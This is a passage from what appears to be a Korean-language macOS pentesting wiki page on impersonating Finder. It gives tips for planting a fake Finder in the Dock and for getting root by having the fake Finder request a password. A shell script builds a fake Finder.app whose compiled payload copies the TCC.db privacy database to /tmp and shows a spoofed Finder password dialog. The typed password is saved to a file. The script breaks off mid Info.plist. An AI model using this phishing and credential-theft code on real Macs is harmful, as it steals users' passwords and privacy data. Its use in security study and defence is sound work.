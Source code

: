 ```bash
```
{% endtab %}

{% tab title="Finder Impersonation" %}
몇 가지 제안:

* 당신은 **Finder를 Dock에서 제거할 수 없습니다**, 그래서 Dock에 추가할 경우, 가짜 Finder를 진짜 Finder 바로 옆에 두는 것이 좋습니다. 이를 위해서는 **Dock 배열의 시작 부분에 가짜 Finder 항목을 추가해야 합니다**.
* 또 다른 옵션은 Dock에 배치하지 않고 그냥 열어두는 것입니다. "Finder가 Finder를 제어하겠다고 요청합니다"는 그렇게 이상하지 않습니다.
* 비밀번호를 묻는 끔찍한 상자 없이 **루트로 상승**하는 또 다른 옵션은 Finder가 특권 작업을 수행하기 위해 실제로 비밀번호를 요청하도록 만드는 것입니다:
* Finder에게 **`/etc/pam.d`**에 새로운 **`sudo`** 파일을 복사하도록 요청합니다 (비밀번호를 요청하는 프롬프트는 "Finder가 sudo를 복사하려고 합니다"라고 표시할 것입니다).
* Finder에게 새로운 **Authorization Plugin**을 복사하도록 요청합니다 (파일 이름을 제어할 수 있으므로 비밀번호를 요청하는 프롬프트는 "Finder가 Finder.bundle을 복사하려고 합니다"라고 표시할 것입니다).
```bash
#!/bin/sh

# THIS REQUIRES Finder TO BE INSTALLED (TO COPY THE ICON)
# If you want to removed granted TCC permissions: > delete from access where client LIKE '%finder%';

rm -rf /tmp/Finder.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Finder.app/Contents/MacOS
mkdir -p /tmp/Finder.app/Contents/Resources

# Payload to execute
cat > /tmp/Finder.app/Contents/MacOS/Finder.c <<EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
char *cmd = "open /System/Library/CoreServices/Finder.app & "
"sleep 2; "
"osascript -e 'tell application \"Finder\"' -e 'set homeFolder to path to home folder as string' -e 'set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias' -e 'set targetFolder to POSIX file \"/tmp\" as alias' -e 'duplicate file sourceFile to targetFolder with replacing' -e 'end tell'; "
"PASSWORD=\$(osascript -e 'Tell application \"Finder\"' -e 'Activate' -e 'set userPassword to text returned of (display dialog \"Finder needs to update some components. Enter your password:\" default answer \"\" with hidden answer buttons {\"OK\"} default button 1 with icon file \"System:Library:CoreServices:Finder.app:Contents:Resources:Finder.icns\")' -e 'end tell' -e 'return userPassword'); "
"echo \$PASSWORD > /tmp/passwd.txt";
system(cmd);
return 0;
}
EOF

gcc /tmp/Finder.app/Contents/MacOS/Finder.c -o /tmp/Finder.app/Contents/MacOS/Finder
rm -rf /tmp/Finder.app/Contents/MacOS/Finder.c

chmod +x /tmp/Finder.app/Contents/MacOS/Finder

# Info.plist
cat << EOF > /tmp/Finder.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CFBundleExecutable</key>
<string>Finder</string>
```